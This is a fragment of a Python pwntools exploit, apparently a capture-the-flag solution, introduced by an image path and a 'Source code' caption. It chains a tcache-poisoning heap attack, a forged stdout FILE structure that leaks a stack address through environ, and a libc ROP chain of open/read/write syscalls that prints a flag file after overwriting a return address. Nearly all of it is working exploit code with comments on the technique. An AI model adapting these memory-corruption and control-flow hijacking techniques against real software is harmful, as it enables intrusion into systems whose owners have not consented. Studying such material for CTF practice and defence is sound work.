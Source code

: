 ```py
    alloc(2, 0x200, 'X') # remove victim from the tcache again, updating the linked list structure
    # This alloc writes to stdout. It sets stdout’s write buffer to be environ, and sets flags to cause it to flush on next print
    alloc(3, 0x200, p64(0xfbad1800) + p64(environ)*3 + p64(environ) + p64(environ + 0x8)*2 + p64(environ + 8) + p64(environ + 8))
    # When printf("> ") happens at the start of the while loop, the buffer is flushed, and our stack address gets printed out first! No newline required.
    stack = u64(r.recv(8)[:-1].ljust(8, b'\x00')) -0x258 # offset computed in gdb
    print("Stack Leak: ", hex(stack))

    # Setup our ROP chain through libc.
    rop = ROP(libc)
    # Use that buffer block as a flag buffer (offsets found through gdb)
    flagoffset = 0x55d31ac5f520 - 0x55d31ac5c000
    flag = heap + flagoffset+16
    # Just make the area after the flag chunk our buffer, its probably writable.
    output = flag + 0x20
    print("Flag.txt: ", hex(flag))
    # Use rop call to automatically generate function calls
    rop.call('syscall', [2, flag, 0, 0])
    rop.call('syscall', [0, 3, output, 0x100])
    rop.call('syscall', [1, 1, output, 0x100])

    free(1) # free our forged chunk
    free(2) # free our victim chunk
    # write to our forged chunk (which again contains the metadata to victim)
    alloc(1, 0x230, b'T'*0x208 + p64(0x211) + p64((stack ^ ((heap + 0x3320) >> 12))))
    # alloc our victim chunk again.
    alloc(2, 0x200, 'xxx')
    # allocs to somewhere on stack before _IO_file_underflow to hijack the return address of it.
    alloc(3, 0x200, b'A'*0xc8+ rop.chain())
    r.interactive()

if __name__ == "__main__":
    main()
```
